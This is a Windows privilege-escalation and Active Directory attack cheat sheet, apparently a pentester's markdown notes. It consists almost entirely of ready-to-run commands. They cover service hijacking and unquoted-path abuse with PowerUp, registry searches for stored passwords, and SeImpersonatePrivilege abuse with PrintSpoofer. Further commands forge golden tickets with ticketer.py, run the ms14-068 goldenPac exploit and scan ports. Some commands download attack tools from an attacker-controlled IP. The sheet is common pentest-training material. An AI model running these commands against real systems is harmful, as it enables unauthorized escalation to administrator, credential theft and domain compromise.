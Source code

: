 System browsing:
---
```cmd
net user
```

```powershell
Get-LocalUser
```

```powershell
GCI -hidden -recurse
ls -force
```

```cmd
net user $USER
```

```cmd
netstat -an
netstat -an | findstr $PORT
```

Replace service
---
Get list of running services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check file permissions:

```powershell
icacls 'c:\...'
```
(F) - full permissions, read, write, execute

or automate the process with PowerUp.ps1
#powerup #replace-service #privesc 
```powershell
iwr -uri http://$LOCAL_IP/PowerUp.ps1 -Outfile PowerUp.ps1
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name '$SERVICE'
Restart-Service $SERVICE
```

Scheduled Tasks:
---

#scheduled-tasks

```powershell
schtasks /query /fo LIST /v | findstr /i "c:\users"
schtasks /query /fo LIST /v | Select-String -Pattern "c:\\user" -Context 5,5
```
Search for passwords inside the registry
---
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Find misconfigured services (default settings)
---
```powershell
cmd /c wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" |findstr /i /v "\`""
```

#unquoted #service-privesc

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v "\`"" | findstr ":"
```

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Stop-Service $SERVICE
Write-ServiceBinary -Name '$SERVICE' -Path "C:\$UNQUOTED_PATH"
Restart-Service $SERVICE
```

Abusing SeImpersonatePrivilege with PrinterSpoofer64:

```powershell
whoami /priv
# look for SeImpersonatePrivilege = enabled
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```
Golden ticket:
---
generate user password hash:

```python
import hashlib
hashlib.new('md4', '$PASSWORD'.encode('utf-16le')).digest().hex()
# save hash for later
```

or use

```url
https://gchq.github.io/CyberChef/#recipe=NT_Hash()
```

```powershell
get-addomain
#extract DomainSID
```

```shell
ticketer.py -nthash $HASH -domainsid $DOMAINSID -domain $DOMAIN -spn AnyName/$DCDOMAIN administrator
```

```shell
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@$DCDOMAIN
```

GoldenPAC ms14-068

```bash
impacket-goldenPac -dc-ip $TARGET_IP -target-ip $TARGET_IP '$DOMAIN/$USER:$PASSWORD@$MACHINE.$DOMAIN'
```

Port scanning using PowerShell
---

Scan if single port is open:
```powershell
Test-NetConnection 127.0.0.1 -Port $port
```

scan ports from 1 to 1024(slow):
```powershell
foreach ($port in 1..1024){If(($a=Test-NetConnection 127.0.0.1 -Port $port -WarningAction SilentlyContinue).TcpTestSucceeded -eq $true){"TCP port $port is open"}}
```